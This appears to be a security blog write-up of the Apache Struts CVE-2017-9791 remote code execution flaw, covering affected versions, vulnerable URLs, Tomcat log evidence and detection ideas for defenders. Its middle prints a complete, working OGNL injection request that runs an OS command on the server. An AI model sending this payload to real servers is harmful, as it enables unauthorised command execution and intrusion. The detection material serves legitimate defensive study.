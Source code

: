 ```yaml
---
title: "CVE-2017-9791 exploit details"
layout: post
---
```


Was looking back through some of my notes and came across this write up I did for a Struts exploit. Nothing crazy but what I liked about the notes I captured was around detection on what defenders could have alerted on when this exploit came out. Enjoy!


Confirmed publicly released exploits of CVE-2017-9791 do allow remote code execution with privileges of the web server.  In recent vulnerabilities involving Struts and others it appears that most business functions follow the best practice of running the web server without admin or root privileges but of course this needs to be confirmed on a case by case basis.

The vulnerable functionality within Struts 2.3.X and below is a sample Struts application that comes bundled by default named struts2-showcase, this application is not installed by default so one would have to intentionally deploy this application.  Below is a screenshot showing it deployed.

![](https://lh5.googleusercontent.com/Cna7087uCh5hl3NVMnHjc5lqM8ebpQvU8Al1V8fei6YU2xxhzWOwWdi3riS8SvBe2GpNuxyYd0CHrjyDc8hF5VLtFDy-1oKLcM_YGDHQ9WTzeRZdglj2ji55yfAhBXr-eHaRntmM)

Below is a screenshot of the vulnerable functionality within Showcase.

![](https://lh4.googleusercontent.com/_8yGvO5MwjNvFFpDXuWXANsrIXKzbp8dfnZR0VbDbCQqUAkuatZ2Un38nVivkBBuyGozvs4_QvjoZBF7wG-nZ9mwI6kmeMyYNEovYx97xBoA89gEutZmb8ZNY7M6943hhvVcyFQL)

The URL to access this functionality is [http://hostname.com/struts2-showcase/integration/editGangster.action](http://hostname.com/struts2-showcase/integration/editGangster.action), once there one can fill out the forms and submit the request to test the working example.  Once that request is submitted it goes to the server as a post request.  

POST /struts2-showcase/integration/saveGangster.action  

Knowing if these URLs exist is one way of determining if the underlying Struts system is vulnerable as Struts 2.5.X does not contain this functionality.  Struts 2.5.X will contain the struts2-showcase application but not the Struts1 plugin. In comparing the downloads of different Struts version only the ones with the “struts2-struts1-plugin” Jar file were vulnerable.

![](https://lh3.googleusercontent.com/Kt1dnmIX8iUrZh5QqtzhQwldfHbFQcFBkAPSzuHH9Y_PewFTLJR8o1KQiNOtF0Pc9LQMUSHU0xBHwpjbciCUoIKlebdh7agT9Rqu1FbGEOBwhHu48YhgZ-EFCo5yhh5SX5CtKCnS)

So if the vulnerable application isn’t deployed but you had access to the file system of the web server then checking for the struts2-struts1-plugin Jar file is another way of confirming if the underlying system could be exposed in the future.

We used publicly known techniques to confirm exploitation was possible, similar to a posting here [https://github.com/nixawk/labs/issues/8](https://github.com/nixawk/labs/issues/8).  Sending a specialized URL request with a proof of concept to execute the command whoami can be seen below.

![](https://lh4.googleusercontent.com/mrHQtGcs7kY7vgWlKrXZgn0Rrbm1OI4zzejyjStQwmFqhD5dhjenv-gJkVWzgE8tzpMRIQObhsxBXSfsAqSC0fhsU9_X4dZ5KVofI-v7vmz5LWpXoHaA12TaDA2EqudzN9ubY3Z3)

The request has to be URL encoded but the complete translation is below.  

{% highlight %}
POST /struts2-showcase/integration/saveGangster.action HTTP/1.0
Content-Length: 1187
Host: 192.168.142.216:8080
Content-Type: application/x-www-form-urlencoded
Connection: close
User-Agent: Python-urllib/2.7  

name=%{(#\_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#\_memberAccess?(#\_memberAccess=#dm):((#container=#context\['com.opensymphony.xwork2.ActionContext.container'\]).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}&age=1337&\_\_cheackbox\_bustedBefore=true&description=blah
{% endhighlight %}

Here is the exploit being ran from the command line via a python script.

![](https://lh6.googleusercontent.com/BxY99kAz6J2xN5sGQLFsEe9rn4SJcFHGAfYV_cDrMHAQ7ru-vMuwrpKioKNjuf_miRS9EhgkA4_0KHLsATVeMJdjDi_gYG8EkcmGiw6ouG3tdMz77tPWLEi5rElzbxJhNzx0fCQq)

If logging is enabled within Tomcat it will have the individual URL requests, in Windows these logs are located in c:\\Program Files (x86)\\Apache Software Foundation\\Tomcat\\logs with the name of the log being localhost\_access\_log.date.  A snippet of these logs are below with the last request being the saveGangster.action request.  

192.168.142.216 - - \[08/Jul/2017:20:03:51 -0400\] "GET / HTTP/1.1" 200 11418

192.168.142.216 - admin \[08/Jul/2017:20:03:53 -0400\] "GET /manager/html HTTP/1.1" 200 12398

192.168.142.216 - admin \[08/Jul/2017:20:04:40 -0400\] "POST /manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=817A45627CEDACBC2F98D9BF3B598839 HTTP/1.1" 200 14179

192.168.142.128 - admin \[08/Jul/2017:20:04:55 -0400\] "GET /manager/html HTTP/1.1" 200 14179

192.168.142.128 - - \[08/Jul/2017:20:04:55 -0400\] "GET /manager/images/tomcat.gif HTTP/1.1" 304 -

192.168.142.128 - - \[08/Jul/2017:20:04:55 -0400\] "GET /manager/images/asf-logo.svg HTTP/1.1" 304 -

192.168.142.128 - - \[08/Jul/2017:20:05:00 -0400\] "GET /struts2-showcase/index.action HTTP/1.1" 200 10870

192.168.142.128 - - \[08/Jul/2017:20:05:00 -0400\] "GET /struts2-showcase/struts/utils.js HTTP/1.1" 200 4730

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/integration/editGangster.action HTTP/1.1" 200 12001

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/struts/xhtml/styles.css HTTP/1.1" 200 1093

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/struts/utils.js HTTP/1.1" 200 4730

192.168.142.128 - - \[08/Jul/2017:20:10:16 -0400\] "POST /struts2-showcase/integration/saveGangster.action HTTP/1.1" 200 11408  

This remote code execution exploit has been proven to work on Windows and \*nix systems.  For detection purposes simply looking for the gangster.action in logs would be a great indicator of malicious activity but not the end all be all.  There are different styles of payloads that can be used to take advantage of this vulnerability so a combination of the gangster.action plus ONGL functionality plus OS style commands will be a better indicator of malicious activity.

